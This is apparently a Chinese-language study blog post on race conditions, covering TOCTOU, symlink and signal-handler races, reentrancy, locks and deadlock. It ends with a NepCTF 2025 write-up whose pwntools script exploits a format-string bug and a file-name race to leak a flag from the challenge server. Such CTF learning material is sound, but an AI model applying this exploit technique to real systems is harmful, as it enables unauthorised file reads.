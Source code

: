 ```yaml
---
title: 条件竞争
date: '2025-07-25 20:45:49'
updated: '2025-07-29 14:46:37'
---
```

## CWE-367: TOCTOU Race Condition
TOCTOC (Time-of-check Time-of-use) 指的是程序在使用资源（变量，内存，文件）前会对进行检查，但是在程序使用对应的资源前，该资源却被修改了

### CWE-365: Race Condition in Switch
当程序正在执行 switch 语句时，如果 switch 变量的值被改变，那么就可能造成不可预知的行为。尤其在 case 语句后不写 break 语句的代码，一旦 switch 变量发生改变，很有可能会改变程序原有的逻辑

### CWE-363: Race Condition Enabling Link Following
我们知道 Linux 中提供了两种对于文件的命名方式：

1. 文件路径名
2. 文件描述符

但是，将这两种命名解析到相应对象上的方式有所不同

+ 文件路径名在解析的时候是通过传入的路径（文件名，硬链接，软连接）间接解析的，其传入的参数并不是相应文件的真实地址 (inode)
+ 文件描述符通过访问直接指向文件的指针来解析

正是由于间接性，产生了时间窗口

例如程序在访问某个文件之前，会检查是否存在，之后会打开文件然后执行操作。但是如果在检查之后，真正使用文件之前，攻击者将文件修改为某个符号链接，那么程序将访问错误的文件

这种条件竞争出现的问题的根源在于文件系统中的名字对象绑定的问题。而下面的函数都会使用文件名作为参数：access(), open(), creat(), mkdir(), unlink(), rmdir(), chown(), symlink(), link(), rename(), chroot(),…

## CWE-364: Signal Handler Race Condition
条件竞争经常会发生在信号处理程序中，这是因为信号处理程序支持异步操作。尤其是当信号处理程序是不可重入的或者状态敏感的时候，攻击者可能通过利用信号处理程序中的条件竞争，可能可以达到拒绝服务攻击和代码执行的效果。比如说，如果在信号处理程序中执行了 free 操作，此时又来了一个信号，然后信号处理程序就会再次执行 free 操作，这时候就会出现 double free 的情况，再稍微操作一下，就可能可以达到任意地址写的效果了

一般来说，与信号处理程序有关的常见的条件竞争情况有

+ 信号处理程序和普通的代码段共享全局变量和数据段
+ 在不同的信号处理程序中共享状态
+ 信号处理程序本身使用不可重入的函数，比如 malloc 和 free 
+ 一个信号处理函数处理多个信号，这可能会进而导致 use after free 和 double free 漏洞
+ 使用 setjmp 或者 longjmp 等机制来使得信号处理程序不能够返回原来的程序执行流

## 概念
### 线程安全与可重入
#### 线程安全
即该函数可以被多个线程调用，而不会出现任何问题

条件：

+ 本身没有任何共享资源
+ 有共享资源，需要加锁

#### 可重用
一个函数可以被多个实例可以同时运行在相同的地址空间中

可重入函数可以被中断，并且其它代码在进入该函数时，不会丢失数据的完整性。所以可重入函数一定是线程安全的

可重入强调的是单个线程执行时，重新进入同一个子程序仍然是安全的

不满足条件

+ 函数体内使用了静态数据结构，并且不是常量
+ 函数体内使用了 malloc 或者 free 函数
+ 函数使用了标准 IO 函数
+ 调用的函数不是可重入的

可重入函数使用的所有变量都保存在调用栈的当前函数栈（frame）上

### 同步原语
一般来说，我们会使用同步原语来消除竞争条件。常见的如下

+ 锁变量

通常互斥琐，在等待期间放弃 CPU，进入 idle 状态，过一段时间自动尝试

自旋锁（spinlock），在等待期间不放弃 CPU，一直尝试

+ 条件变量

条件变量是用来等待而不是用来上锁的。条件变量用来自动阻塞一个线程，直到某特殊情况发生为止。通常条件变量和互斥锁同时使用

+ 临界区对象，CRITICAL_SECTION
+ 信号量（semaphore），控制可访问某个临界区的线程数量，一般比 1 大
+ 管道，指用于连接一个读进程和一个写进程以实现它们之间通信的一个共享文件。其生存期不超过创建管道的进程的生存期
+ 命名管道，生存期可以与操作系统运行期一样长

### 死锁
当同步原语使用的不恰当的时候，进程就可能会出现死锁。当两个或两个以上的执行流互相阻塞导致都不能继续执行，死锁就会发生。其实，死锁主要是因为在冲突的执行流中，出现了循环等待的执行流，即循环等待中的每一个执行流都获得一个资源，同时试图获得下一个资源。下图所示，P1、P2 两个进程都需要资源才能继续运行。P1 拥有资源 R2、还需要额外资源 R1 才能运行；P2 拥有资源 R1、还需要额外资源 R2 才能运行，两边都在互相等待而没有任何一个可运行。

一般来说，死锁有以下四个必要条件

1. 互斥，资源是互斥的
2. 持有和等待，持有已有的资源，同时等待使用下一个资源
3. 不可抢占，进程所获得的资源在未使用完毕之前，资源申请者不能强行地从资源占有者手中夺取资源，而只能由该资源的占有者进程自行释放
4. 循环等待，循环等待资源

而如果想要消除死锁，也就是打破上面的四个必要条件

此外，死锁可能来源于以下的原因

+ 处理器速度
+ 进程或者线程调度算法的变动
+ 在执行的过程中，不同内存的限制
+ 任何能够中断程序执行的异步事件

死锁一般情况下会造成拒绝服务攻击

### 协程
+ 协程通过在线程中实现调度，避免了陷入内核级别的上下文切换造成的性能损失，进而突破了线程在 IO 上的性能瓶颈
+ 协程拥有自己的寄存器上下文和栈
+ 协程调度切换时，将寄存器上下文和栈保存到其他地方，在切回来的时候，恢复先前保存的寄存器上下文和栈，直接操作栈则基本没有内核切换的开销

## NepCTF 2025 Time
是多线程的题目，只听说过条件竞争，没了解过（去了解一下）

通过fork()还有pthread_create(newthread, 0LL, start_routine, 0LL);创建新线程

bss段的file变量是在不同线程共享的

有execve，open，read，write函数，保护全开

start_routine有个格式化字符串漏洞。感觉可以条件竞争修改file变量

xi_ix 师傅：

格式化漏洞那里，会将文件内容读取到栈上，如果条件竞争修改file变量成功，也就是读取到了flag文件的内容，就可以通过fmt读出flag文件内容，偏移量为22（很奇怪的是，使用%22$s会报错，只能使用%22$p）

远程flag很长，从%22$p一直到%27$p，，只能慢慢整理出来了，思路就是上面说的，条件竞争的脚本的话是这样子的，也是摸出来了：

```python
from pwn import*
context(log_level="debug",arch="amd64")
#p1=process("./time")
p1=remote("nepctf30-l6nt-pinw-lh0a-jgrwmdyyd520.nepctf.com",443,ssl=True,sni=True,typ="tcp")
p1.recvuntil("please input your name:")
p1.sendline("%27$p")               ##泄露的位置，从22开始
p1.recvuntil("input file name you want to read:")
#gdb.attach(p,"b *$rebase(0x2D0B)")
p1.sendline("/test")              #输入test是不让程序卡在检测flag那个函数中，进入到start_routine
for i in range(10):
    p1.sendline("/test")
p1.sendline("/flag")      #然后一直条件竞争，试着改文件名。
p1.interactive()
```

不知道是不是这样，当时跟着理解抱着试一试的心态就跑了，结果发现竞出来了

